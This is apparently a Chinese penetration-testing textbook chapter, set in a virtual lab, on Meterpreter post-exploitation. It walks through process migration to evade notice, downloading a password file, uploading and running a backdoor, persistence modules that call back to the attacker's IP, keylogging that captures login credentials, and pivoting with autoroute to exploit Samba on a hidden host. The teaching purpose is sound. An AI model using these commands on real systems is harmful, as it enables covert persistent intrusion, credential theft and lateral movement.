







# 第十六章：后期利用

在前面的章节中，我们介绍了如何通过各种技术访问设备。现在我们将进入后期利用任务，重点讲解 Meterpreter 会话以及如何在获得访问权限后进一步利用目标系统。接下来，我们将了解一些基本的文件系统命令，这些命令可以帮助我们更好地利用目标系统。

迄今为止，在本书中，我们的访问仅限于目标系统，直到受害者的系统上运行了我们的后门文件或软件。现在，我们将学习如何通过简单和高级方法维持对系统的访问。我们甚至将探讨在执行键盘记录攻击后可以做什么。接下来，我们将介绍一个重要概念——跳板利用，并用它来创建自动化跳板。

本章将覆盖以下内容：

+   后期利用简介

+   Meterpreter 基础

+   文件系统命令

+   使用简单方法维持访问

+   使用高级方法维持访问

+   键盘记录

+   跳板利用简介

+   自动化跳板的引导

# 后期利用简介

现在我们已经学会了如何获取对目标的访问权限，让我们看看在获得访问权限后可以做什么。在本节中，我们将学习在获得计算机访问权限后可以做的许多事情。我们将了解无论如何获取访问权限（无论是使用服务器端漏洞、社交工程学、后门、某个应用程序的漏洞，还是其他方法），都可以在计算机上进行哪些操作。

在前几章中，我们通常会在获得反向 Meterpreter 会话后停止。 在本章中，我们将从 Meterpreter 会话开始。我们不会讨论如何获取访问权限，而是讨论获得访问权限后能做什么。我们将讨论一些非常酷的内容，例如如何保持对目标计算机的访问，即使用户卸载了易受攻击的程序或重启了计算机。我们将看看如何下载、上传和读取文件，打开摄像头，启动键盘记录程序来记录按键，等等。我们还将学习如何利用目标计算机作为跳板，进而攻击同一网络上的所有计算机（假设我们的目标实际上不是我们黑掉的计算机，而是与其位于同一网络的另一台计算机）。再次强调，本章将聚焦于在我们利用目标的漏洞并获得访问权限后可以做的所有事情。

# Meterpreter 基础

在本节中，我们将学习如何与 Metasploit 的 Meterpreter 交互的基本知识。在 Linux 中，`help`命令始终是获取特定命令信息的最佳命令。因此，我们首先要做的就是运行`help`命令，获取我们可以运行的所有命令的完整列表，以及每个命令的描述，正如以下截图所示：


看一下其中的一些基本内容，首先我们要重点介绍的是 `background` 命令，如下所示：


`background` 命令基本上是将当前会话置于后台，而不终止它。这与最小化一个窗口非常相似。因此，在运行 `background` 命令后，我们可以返回到 Metasploit 并运行其他命令来进一步利用目标机器（或其他机器），同时保持与我们刚刚攻破的计算机的连接。要查看我们正在使用的所有计算机和会话列表，可以运行 `sessions -l` 命令，它会显示当前会话。正如我们在以下截图中看到的，我们仍然保持 Meterpreter 会话——我们并没有丢失它，它位于我们的设备与目标设备之间，目标设备的 IP 是 `10.0.2.5`：


如果我们想返回到之前的会话并再次运行 Meterpreter，我们只需运行 `sessions` 命令并使用 `-i`（表示交互），然后输入会话 ID（在我们的例子中是 `2`），如下所示：


另一个命令是 `sysinfo`。每当我们入侵一个系统时都会运行此命令；它会显示目标计算机的信息。如以下截图所示，它显示了计算机的名称、操作系统和架构。在以下截图中，我们还可以看到它是 64 位计算机，因此，如果我们想在未来运行可执行文件，我们知道需要创建 64 位的可执行文件：



我们可以看到正在使用的语言是英语，计算机所在的工作组，以及登录的用户 ID。我们还可以看到运行在目标机器上的 Meterpreter 版本，实际上是 32 位版本。

另一个有用的信息收集命令是 `ipconfig`。此时，`ipconfig` 命令与我们在 Windows 机器上运行的 `ipconfig` 命令非常相似（在命令提示符中）；它将显示连接到目标计算机的所有接口，如下图所示：


例如，我们可以看到 `Interface 1`，MAC 地址，IP 地址，甚至是 IPv4 地址，连接到多个网络。我们还可以看到所有接口以及如何与它们进行交互。

另一个有用的信息收集命令是 `ps` 命令。`ps` 命令将列出在目标计算机上运行的所有进程；这些可能是后台进程，或者是前台运行的实际程序，例如 Windows 程序或 GUI。在以下截图中，我们可以看到所有正在运行的进程列表，以及每个进程的名称和 `ID` 或 `PID`：


一个有趣的进程是`explorer.exe`—这实际上是 Windows 的图形界面，我们可以看到在前面的截图中它正在`PID 4744`上运行，如下所示：


一旦我们成功入侵系统，将计算机正在运行的进程迁移到更安全的进程是一个非常好的主意。例如，`explorer.exe`进程是 Windows 的图形界面，因此只要用户在使用设备，它就会一直运行。这意味着它比我们获取计算机访问权限的进程要安全得多。例如，如果我们通过一个可执行文件或程序获取访问权限，只要用户关闭该程序，我们就会失去进程。更好的方法是迁移到一个不太可能被关闭或终止的进程。为此，我们将使用一个名为`migrate`的命令，它将把我们当前的会话移动到另一个进程中。我们将使用`explorer.exe`进程，因为它非常安全。

使用`migrate 4744`命令，其中`4744`是`explorer.exe`进程的`PID`。以下是`migrate`命令的输出：


此刻，Meterpreter 正在从`explorer.exe`进程中运行。如果我们在目标计算机的任务管理器中运行资源监视器，然后转到网络选项卡并进入 TCP 连接，我们将看到端口`8080`上的连接来自`explorer.exe`进程，如下所示：



TCP 连接

因此，对于目标来说，连接并非来自恶意文件、我们的 payload 或后门，而是通过`explorer.exe`运行，这并不可疑。现在，如果我们看到 Firefox 或 Chrome，我们可以迁移到这些进程。而且，如果我们通过端口`8080`或`80`连接，它看起来会更不可疑，因为端口`80`和`8080`是 Web 服务器使用的端口，因此通过它们进行连接是非常自然的。

# 文件系统命令

现在，我们将看一些更多的命令，这些命令将允许我们在目标计算机上导航、列出、读取、下载、上传甚至执行文件。我们有一个正在运行的 Meterpreter 会话，我们将首先使用`pwd`命令获取当前工作目录。它将把我们带到`C:\Users`位置。如果我们想列出所有文件和目录，我们可以使用`ls`命令；以下截图显示了文件列表：


假设我们想要导航到`IEUser`文件夹。我们将使用`cd IEUser`命令，如果我们使用`pwd`，我们将在`C:\Users\IEUser`目录中。然后，我们将进入`Downloads`目录并列出文件。在以下文件列表中，我们可以看到一个看起来很有趣的文件`passwords.txt`：


如果我们想读取这个文件，我们只需使用`cat paswords.txt`命令。然后我们可以看到文件的内容，如下图所示：


如果我们检查这个文件，我们会发现通过`cat`命令得到的输出与文件的内容一致。

假设我们想要保留这个文件以供以后使用。我们可以通过使用`download`命令和文件名`paswords.txt`来下载它。命令的输出如下所示：


一旦我们启动命令，文件就会被下载；如果我们进入`root`目录，我们将看到一个名为`paswords.txt`的文件，里面包含了所有数据：


现在，假设我们有一个后门、病毒、木马或键盘记录器，想要将其上传到目标计算机。我们可以非常轻松地上传它。返回到我们的`root`目录，我们可以看到很多文件，其中包括一个名为`backdoored-calc.exe`的文件。我们将通过运行`upload`命令和文件名来尝试上传该文件。文件将被上传，如下图所示：


现在我们将列出一个清单，以确保文件存在；在下面的截图中，我们可以看到一个名为`backdoored-calc.exe`的新文件：


要在目标计算机上执行上传的文件（如果它是病毒或键盘记录器），我们只需运行`execute`命令，并在`-f`选项后指定要执行的文件。例如，我们的文件是`backdoored-calc.exe`。一旦执行它，我们将看到进程`3324`已被创建，因此我们的后门已经执行：


现在，如果`backdoored-calc.exe`是一个病毒，它将按照预期执行其功能。

另一个功能是`shell`命令，它将当前的 Metasploit 或 Meterpreter 会话转换为操作系统的命令行。如果我们输入`shell`命令，我们将得到一个 Windows 命令行界面，在这里我们可以执行 Windows 命令。正如我们在下图中看到的，它在一个不同的通道上，我们可以通过它运行任何 Windows 命令。因此，我们可以运行`dir`命令列出所有目录；我们可以使用`ipconfig`；还可以像在命令提示符下那样使用任何其他 Windows 命令：


还有许多其他命令可以用来管理文件系统。如果我们输入`help`命令并进入文件系统部分，我们将看到可以编辑、下载、将文件移动到另一个文件、重命名文件、删除文件、移除目录、搜索等等。我们可以做的事情还有很多，我们这里只是概述了可以用来管理目标计算机上文件系统的主要命令，如下图所示：


# 使用简单的方法保持访问

在我们目前看到的所有例子中，一旦目标用户重启计算机，我们会失去与目标计算机的连接，因为我们使用的是普通后门，一旦计算机重启，那个后门会被终止，进程会被终止，我们会失去连接。在这一部分，我们将讨论那些能够让我们保持访问目标计算机的方法，这样我们可以随时回来并重新获得对计算机的完全控制。有许多方法可以做到这一点。第一个方法是使用 Veil-Evasion；我们可以使用 HTTP 服务或 TCP 服务，而不是我们创建的 HTTP 后门。

让我们看一个例子。如果我们使用 Veil-Evasion 并运行`list`命令，我们会看到在数字`6`和`8`的位置，我们有服务后门，如下图所示：


如果我们运行`use 6`，我们只需要设置`LHOST`，然后`generate`后门；我们可以将其与其他方法结合并发送给目标对象，或者我们可以使用之前学过的`upload`命令上传它，然后执行它，这样就会将后门作为服务安装在目标计算机上：


我们需要做的就是使用 multi-handler，每次目标计算机启动时，它都会尝试回连，因为它是一个反向 Shell。我们不会详细研究这种方法，因为它非常简单。我们以前做过类似的事情：我们使用 Veil-Evasion 创建了一个后门并上传到目标计算机。所以，我们只需要创建一个后门，上传它，执行它，然后就完成了。这并不总是有效——这也是我们不打算详细研究它的原因。普通的后门更可靠；这就是为什么我们在将后门与其他方法结合使用时，比如更改图标，时会使用普通后门。

另一种方法是使用 Meterpreter 附带的一个模块，叫做`persistence`；让我们看看如何使用它。我们只需要使用`run`命令并附加`persistence`，然后使用`-h`查看帮助菜单，显示所有可以设置的选项。在以下截图中，我们可以看到`-A`会立即启动一个 multi-handler；我们实际上不需要更改后门安装的位置：


`-P`选项将指定负载；再次强调，`windows/meterpreter/reverse_tcp`是一个非常好的负载，因此我们不需要修改它。`-S`选项用于启用系统权限；如前所述，我们没有系统权限，因此应该使用`-U`选项。然后，我们可以使用`-i`选项来设置后门尝试连接回我们的时间间隔；它将每隔 10、15 或 20 秒尝试连接——具体时间由我们指定。`-p`选项用于指定端口，而`-r`选项用于指定我们计算机的 IP。

要运行`persistence`，我们只需使用`run persistence`，`-U`（以用户权限启动），`-i`设置为`20`秒，然后使用`-p`，我们可能会选择`80`端口，因为如前所述，端口`80`看起来不容易引起怀疑。接着，我们可以使用`-r`来指定我们的 IP，假设是`10.0.2.15`。命令大致如下：

```
run persistence -U -i 20 -p 80 -r 10.0.2.15
```

显然，一旦我们运行这个，如果我们想要接收连接，我们必须在端口`80`（或者使用负载选择的端口）上启动 multi-handler。这个方法的问题是它会被杀毒软件检测到；因此，我们不会详细解释它。我们将解释这两种方法的结合体，这种方法不会被杀毒软件检测到，而且比使用 Veil-Evasion 更加稳健。

# 使用高级方法保持访问

在本节中，我们将使用之前创建的普通 HTTP 反向 Meterpreter 不可检测后门。我们将其作为服务注入，这样每次目标用户启动计算机时，它都会尝试以某些间隔连接回我们。为此，首先，我们将当前会话`background`。我们之前做过这个操作；可以使用`background`并继续与编号为`2`的会话交互。

我们将`use`一个模块，它类似于 Metasploit 附带的 multi-handler 模块，名为`exploit/windows/local/persistence`。我们将查看它的选项，看看需要配置什么。在以下截图中，我们可以看到与 Metasploit 服务中看到的类似选项：


首先是目标将尝试连接回我们的秒数——即`DELAY`。我们将其保持为`10`秒——因此，每`10`秒，目标计算机将尝试连接回我们。现在，`EXE_NAME`是连接响应的进程名，我们将其设置为浏览器，以减少被检测的可能性；因此，我们将`EXE_NAME`设置为`browser.exe`。命令如下：

```
set EXE_NAME browser.exe
```

载荷或后门将被安装的`PATH`将保持不变，`REG_NAME`（注册表项）也将保持不变。现在，这非常重要：我们需要指定在哪个会话上运行 exploit。在这个例子中，我们使用会话编号`2`；那是我们的 Meterpreter 会话。如果我们使用`sessions -l`，它将列出所有可用的会话，我们将看到其`Id`编号为`1`：


我们需要将我们的`SESSION`设置为编号`2`。因此，我们将使用`set SESSION 2`，并且`STARTUP`将保持为`USER`，用于用户权限。现在，如果我们运行`show options`，我们可以看到`browser.exe`和会话编号`2`已设置，如下所示：


最重要的事情是指定将作为服务注入的载荷。为此，我们将运行`show advanced`。`show advanced`命令将显示我们可以为此特定模块设置的高级选项。我们感兴趣的是称为`EXE::Custom`的选项，表明我们将使用自定义的`.exe`运行并注入到目标计算机作为服务：


我们将`EXE::Custom`设置为`/var/www/html/backdoor.exe`，这样我们就可以运行我们存储在`/var/www/html/backdoor.exe`中的后门。命令如下：

```
set EXE::Custom /var/www/html/backdoor.exe
```

现在，我们将运行`show advanced`来确保它已正确设置，因为有时我们会拼错单词：



我们将对此进行`exploit`，这将上传`/var/www/html/backdoor.exe`到目标计算机，使用我们指定的会话（会话编号为`2`）。一旦我们执行`exploit`，我们将看到它已被上传并安装，如下所示：


需要牢记的一件重要事情是资源文件，因为我们可以使用它来在使用完后清理和删除后门。如果我们不再希望在目标计算机上有后门，我们可以使用资源文件来删除它。我们可以将`exploit`命令输出中的 RC 文件路径存储在 Leafpad 中，这样我们可以在将来运行它并删除我们的后门。

如果我们运行`sessions -l`，它会显示会话存在，并且我们可以与其交互。我们可以使用`session -K`命令终止该会话。

现在，如果我们使用`list`，我们将与目标计算机没有连接。使用我们的 exploit multi-handler，我们可以监听传入的连接。

如果我们运行`exploit`，并且被黑客入侵的计算机已经启动，我们将立即获得连接，因为我们的后门已经通过`reverse_http`端口`8080`注入到目标计算机中。然而，我们将重新启动目标计算机，只是为了确保我们始终能够连接到它。

在 Windows 机器上执行正常重启。我们的 Kali 计算机将每 10 秒尝试重新连接，无论 Windows 机器重启或关机多少次。现在我们将运行我们的 Meterpreter 处理程序并等待连接。只需运行`exploit`进行监听，最多需要 10 秒钟即可重新连接。正如我们在以下截图中所看到的，我们收到了与目标计算机的连接，并且现在完全可以访问该计算机：



# 键盘记录

在本节中，我们将看看如何记录目标计算机上发生的任何鼠标或键盘事件。我们将使用 Meterpreter 附带的插件来实现。我们有我们的 Meterpreter，所以我们只需运行`keyscan_start`，如下所示：


假设我们想要进入 Facebook 并登录一个账户。如果我们查看该网站的 URL，其中包含 HTTPS，并且没有任何问题。通常，我们需要密码来登录账户。如果我们回到我们的终端，通过输入`keyscan_dump`可以看到记录的一切。通过该命令，我们可以看到目标用户输入了`www.facebook.com`，按下*Enter*，并输入了他们的用户名，即`zaid@isecur1ty.org`，以及密码`123456`：


这将记录计算机上发生的一切。我们可以停止运行`keyscan_stop`，它将停止嗅探器。

我们还可以做的另一件很酷的事情是通过输入`screenshot`来获取屏幕截图；它会将其保存在`/root`目录中：


前往`/root`，我们会看到截图存在。它显示了目标计算机屏幕上显示的内容：

捕获目标屏幕

这只是我们可以使用的两个有用功能之一。键盘记录非常有用，因为我们可以获取用户名和密码，并查看目标用户在计算机上正在做什么。显然，我们可以使用其他键盘记录程序，如便携式键盘记录器；我们只需通过使用之前学到的`upload`命令上传它们，然后`execute`它们。

# 枢纽简介

在本节（以及接下来的几节）中，我们将学习枢纽概念。我们将假设我们的目标是**METASPLOITABLE**设备。在下面的图表中，每个大圆圈代表一个网络，正如我们所看到的，黑客看不到**Metasploitable**设备：


Metasploitable 设备被隐藏，要么在网络后面，要么是其他原因。黑客无法 ping 通或访问 Metasploitable 设备的 IP 地址。我们假设在我们的示例中，Metasploitable 设备存在于不同的网络中。我们可以看到该网络有四个设备，分别是 Metasploitable 设备、一台 iPhone、另一个设备以及一台 Windows 设备（我们已入侵，并且该设备用红色标记）；黑客设备存在于较小的网络中，且只有两个设备（黑客和我们入侵的 Windows 机器）。枢轴攻击的目标是通过我们入侵的设备（中间的常规设备）来攻击它能够访问的其他设备。因此，黑客无法看到我们的目标设备——Metasploitable 设备——但我们刚刚入侵的设备可以看到该设备，因为它们在同一网络上。

在接下来的几节中，我们将尝试入侵 Metasploitable 设备，即使它对黑客（Kali 设备）不可见。访问 Metasploitable 设备的唯一方法是通过 Windows 设备，它将作为枢轴使用。

为了设置我们的网络（我们的实验室），我们将进入 VirtualBox 设置，然后进入首选项 | 网络；我们可以看到我们一直在使用的网络，它是内部 NAT 网络：



NatNetwork 是我们的 Windows 和 Kali 设备连接的网络。我们将通过点击加号（+）创建另一个 NAT 网络，命名为 NatNetwork1：



现在，我们将点击右侧的第三个图标来编辑设置，并且可以设置网络的 IP。我们将其设置为 `10.0.3.0/24`。以下截图展示了所有设置：


所以，我们创建了另一个网络，Kali 机器没有连接到这个网络。现在，我们将修改 Windows 设备的设置，使其连接到这两个网络。正如我们在前面的截图中看到的，Windows 设备是常规设备，它将连接到 Kali 设备所在的 NAT 网络，以及 Metasploitable 设备所在的网络。在 Windows 机器设置中，进入网络 | 适配器 2 | 启用网络适配器，并将其连接到 NAT 网络。然后，选择 NatNetwork1，如下所示：


现在，Windows 设备使用了两个适配器；其中一个连接到 NatNetwork，另一个连接到 NatNetwork1。

在 Metasploitable 设备上，进入设置 | 网络，并将其从连接到 NatNetwork 改为连接到 NatNetwork1：


现在，Metasploitable 设备仅连接到 Windows 设备连接的网络，而 Kali 机器仅连接到 Windows 设备连接的网络；Windows 设备连接到两个网络。

现在，为了验证我们的设置是否正确，我们将启动我们的 Metasploitable 设备和 Windows 设备，并将使用一些`ping`命令来确保一切设置正确。主要是 Windows 机器应该能够 ping 通 Metasploitable 和 Kali 设备。在下面的截图中，我们可以看到我们已经获得了 Metasploitable 设备的 IP - `10.0.3.5`：


运行`ping 10.0.3.5`，我们会看到 Windows 机器可以看到 Metasploitable 机器，如下截图所示：


现在，让我们检查它是否能看到 Kali 机器，即`10.0.2.15`；同样，如果 Windows 可以看到两台机器，这意味着它是中间设备：


此外，我们将检查 Metasploitable 机器是否能看到 Kali 机器。它不应该能看到，因为 Kali 机器和 Metasploitable 机器连接到两个不同的网络。当我们在 Metasploitable 机器上运行`ping 10.0.2.15`时，我们会看到我们什么也没有收到—已发送`18`个数据包，接收`0`个：


因此，Metasploitable 设备无法看到 Kali 机器，Kali 机器也无法看到 Metasploitable 设备。在 Kali 上运行`ping 10.0.3.5`，我们会看到它发送了`3`个数据包，但没有接收到；这两台设备无法相互看到，因为它们位于两个不同的网络上，如下截图所示：


在接下来的部分中，我们将利用对 Windows 机器的访问来入侵 Metasploitable 设备，因为 Windows 机器是连接到两个网络的公共设备。

# 枢轴自动路由

现在我们理解了枢轴概念，执行起来就不难了。我们只需要上传我们想要使用的任何工具；例如，如果我们想要使用 Nmap 或 ARP 欺骗或 dSniff，我们可以上传这些工具并在连接到大型网络的 Windows 计算机上运行它们，然后运行端口扫描器，执行 ARP 欺骗，或进行中间人攻击，就像我们之前学到的那样。非常简单；我们只需使用`upload`命令并从命令行中使用该工具。

在本节中，我们将看到如何在被黑客入侵的计算机和我们的计算机之间建立路由，以便我们可以针对大型网络使用任何 Metasploit 辅助工具或模块。我们将能够使用 Metasploit 漏洞利用、端口扫描器和其他有用的模块。

为了做到这一点，我们将使用一个叫做`autoroute`的模块。让我们看一下如何在 Metasploitable 虚拟机上运行漏洞攻击；它应该不会成功，因为现在它对我们不可见。所以，我们将使用`sessions list`，并且会看到我们通过已被黑的 Windows 机器建立了连接：


接下来，我们将运行`use exploit/multi/samba/usermap_script`——我们之前已经在 Metasploitable 设备上使用过这个漏洞，但那时它和我们处在同一网络中，所以我们能够看到它。这一次，我们尝试攻击的是一个不可见的设备。然后，我们将运行`show options`，如下所示：


我们将`RHOST`设置为`10.0.3.5`，因为那是 Metasploitable 设备的 IP 地址。然后，当我们使用`set PAYLOAD cmd/unix/bind_netcat`和`show options`时，所有设置都会正确完成；所以我们将运行`exploit`，我们会看到漏洞会超时，因为（正如我们在*引入跳板攻击*一节中看到的）黑客设备看不到 Metasploitable 设备。所以，它尝试在 Metasploitable 设备上运行一个漏洞，尽管 Metasploitable 设备有漏洞，但由于我们无法看到它，我们无法利用它，正如我们将看到的，漏洞攻击失败了，我们收到了`ConnectionTimeout`，我们无法连接到目标计算机，如下图所示：


现在，我们将与`ID 1`上的 Meterpreter 交互，并运行`sessions -i 1`。接着，在我们的 Meterpreter 中，我们将运行`ifconfig`来查看目标计算机连接的网络：


我们可以看到所有连接到目标计算机的接口，并且我们将寻找有 IP 地址的接口。我们看到接口编号`9`有一个 IP 地址，并且这个 IP 地址在我们的网络上；所以它实际上没什么用。它已经在我们的网络上；我们在`10.0.2.5/24`子网中。另一个我们能看到的接口是`Interface 21`，它连接到`10.0.3.4`；这个接口在一个不同的子网上，而我们从 Kali Linux 设备上看不到这个子网。

现在，我们将尝试在不同子网与当前子网之间设置路由。我们将复制地址`10.0.3.4`，并将当前会话设置为`background`，然后返回到 Metasploit。接着，我们将运行`use post/multi/manage/autoroute`。现在，如果我们想查看所有已管理的模块，可以在`use post/multi/manage/`命令后，按两次*Tab*，我们将看到所有`post/multi/manage`模块，并可以尝试新的实验：


我们现在要使用的是`autoroute`。我们需要设置`SESSION`和`SUBNET`；首先通过运行`set SESSION 1`来设置`SESSION`，然后将`SUBNET`设置为我们在运行`ifconfig`命令时看到的值，它是`10.0.3.4`。再次提醒，我们使用的都是我们已经学过的非常简单的命令。

我们将把这个`SESSION`设置为编号`1`（这是我们为 Windows 机器劫持的`SESSION`），而`SUBNET`是 Windows 机器连接的`SUBNET`，所以它是`10.0.3.0`。然后我们运行`exploit`，这将创建我们设备和 Windows 设备之间的连接（或路由）：


现在，我们将回到本节开始时尝试的相同漏洞，我们会看到这个漏洞现在可以生效，因为 Windows 设备现在对我们可见。我们可以使用 Metasploit 预装的端口扫描器或发现模块，或者任何其他随 Metasploit 一起提供的模块，而不是使用`exploit/multi/samba/usermap_script`漏洞。现在我们已经与 Windows 计算机建立了连接，并在该网络和我们的计算机之间设置了路由，所以我们现在可以看到 Metasploitable 设备。

现在，我们将使用之前使用的相同漏洞：`exploit/multi/samba/usermap_script`。我们将保持选项不变，因为一切都设置正确。我们只需要运行`exploit`，正如我们在下面的截图中看到的，命令行界面将正常启动，我们将能够访问 Metasploitable 设备：


我们可以运行`id`和`uname -a`来确认之前的情况，并且我们可以看到我们已经进入了 Metasploitable 设备，可以运行任何我们想要的 Linux 命令；我们可以使用`ls`、`pwd`或任何其他 Linux 命令，如下所示：


基本上，我们已经完全访问了目标计算机。正如我们之前提到的，我们可以上传程序并从目标计算机运行它。然而，将东西上传到被攻击的计算机并不总是一个好主意——设置路由和使用跳板是更安全的选择。

强烈建议查看其他 Metasploitable 模块，因为 Metasploit 非常庞大。对我来说，涵盖所有内容是很困难的；我只是覆盖了主要的要点，但你可以随时进入并查看其他模块。实际使用模块通常和我们在这里做的相同；我们查看了广泛的模块，因此你应该能够根据自己的需要配置选项并运行模块。

# 总结

在这一章中，我们重点讲解了后渗透任务，即在成功侵入目标系统后可以执行的操作。我们介绍了基本的文件系统命令，并演示了如何访问受害者的机器，即使用户没有使用特定软件或已关闭系统电源。我们实现了简单和高级方法来保持对系统的访问。然后，我们讨论了如何在对目标设备进行键盘记录攻击后获取用户凭证。接下来，我们讲解了“跳板”概念，这意味着针对不直接位于我们网络上的系统进行攻击。我们甚至研究了跳板自动路由的示例。

在接下来的几章中，我们将介绍网站渗透测试的基本概念。
